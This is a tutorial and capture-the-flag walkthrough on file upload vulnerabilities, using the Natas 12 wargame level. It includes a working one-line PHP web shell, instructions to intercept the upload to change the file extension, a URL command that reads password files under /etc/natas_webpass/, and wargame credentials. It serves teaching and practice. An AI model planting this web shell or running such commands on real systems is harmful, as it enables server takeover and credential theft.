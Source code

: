 # File upload vulnerability

> Various web applications allow users to upload files (eg images,music files etc). The uploaded files can create momentous risk if not handled in a secure way. Depending on the how the file is processed and where it is stored the impact of the file upload vulnerability may vary.

There are two types forms of  complications here.The first one is with the metadata, like the path and the file name.These are generally provided by the transport, such as HTTP multipart encoding. This data can be used to trap the application into overwriting a critical file or storing the file in a bad location. For example, the attacker can upload file called index.php in the root folder by upload a malicious file and its filename might look like this “../../../index.php”. So you must validate the metadata extremely carefully before using it.The other type of problem with uploaded data comes from file content.

## Impact
- The attacker can get a web shell and execute various commands, browse system files and browse local resources etc.
- Make a phishing page in the website
- Make a permanent XSS in the website
- Uploaded sensitive files might be accessible by unauthorised people.
- Uploaded files might trigger vulnerabilities in broken libraries/applications on the client side.
- Uploaded files might trigger vulnerabilities in broken libraries/applications on the server side.
- Uploaded files might trigger vulnerabilities in broken real-time monitoring tools.

The impact of this vulnerability is high, a supposed code can be executed in the server context or on the client side. The likelihood of detection for the attacker is high. The prevalence is common. As a result, the severity of this type of vulnerability is high.
### Explore it yourself :
 Make a PHP file to test the vulnerability locally in your system with the code mentioned here.
 
  shell.php
```php
<?php
echo system($_GET["cmd"]);
?>
``` 

## Let's try a challenge

NATAS 12 :
 - USERNAME : natas12
 - PASSWORD : EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3 
 
 ![natas12](natas12.1.png)

You can see that we can upload a file here. Let's try to upload a file so that we can get a shell on the website.

Make the shell.php file. We can pass the commands through the URL.


Now let's upload the PHP file. But during the upload, we should change the .jpeg format to .php by intercepting the request.

![natas12](natas12.3.png)

Once you open the link generated by the site, we can start exploiting by giving the commands we desired. Once we get the shell we can do various things.
</br></br>
The password for the next level will be in the folder /etc/natas_webpass/
where natas12 is the file containing the password.

so...
```
.php?cmd=cat  /etc/natas_webpass/natas12
```

Gives the password : jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY
</br></br>
![natas12](natas12.5.png)

 This is a basic example of File upload vulnerability.



